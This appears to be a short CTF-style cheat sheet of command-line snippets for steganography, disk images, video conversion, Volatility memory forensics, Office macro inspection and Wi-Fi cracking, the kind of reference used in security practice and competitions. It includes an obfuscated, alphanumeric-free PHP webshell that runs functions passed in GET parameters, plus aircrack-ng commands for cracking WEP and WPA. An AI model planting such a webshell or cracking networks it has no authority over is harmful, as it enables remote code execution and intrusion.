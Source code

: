 # CTF-like Tools
======
#### Extract Data from JPG
steghide -extract -p <password> -sf <file>
#### Boot a DOS/MBR Image
qemu-system-i386 floppy.img; vncviewer 127.0.0.1
#### PHP Webshell without alphanum
```

<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);
// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
```
#### Read IMG, Data Dump, or Physical Device
fdisk -l disk.img
#### Mount only part of IMG file
mount -v -o offset=135266304 -t ext4 pi.img /mnt (where offset is equal to sector size * start)
#### Convert DVD Files to MP4
cat VTS_0*_*VOB | ffmpeg -i - -vcodec h264 -acodec mp2 rip.mp4
#### Reduce Size of Video Files (lower compression/crf means higher quality)
ffmpeg -i movie.mpg -c:v libx264 -b:v 1.5M -c:a ac3 -b:a 128k movie_comp.mpg

## Volatility
------
#### Find possible profiles/offsets
volatility -f OL4.raw kdbgscan
#### List processes
volatility -f OL4.raw pslist --profile=Win2012x64
#### List variables within processes
volatility -f OL4.raw --profile=Win2012x64 envars
#### Bind to port (<1024) without root
echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start

## Examine Microsoft Office Macros
------
#### List OLE objects
oledump file.docm
#### Dump OLE object
oledump file.docm -s 4 -d

## Wifi
------
#### Crack WEP
aircrack-ng data.cap (WEP may be cracked with a sufficiently high number of handshakes , > ~1000)
#### Crack WPA
aircrack-ng -w wordlist.txt data.pcap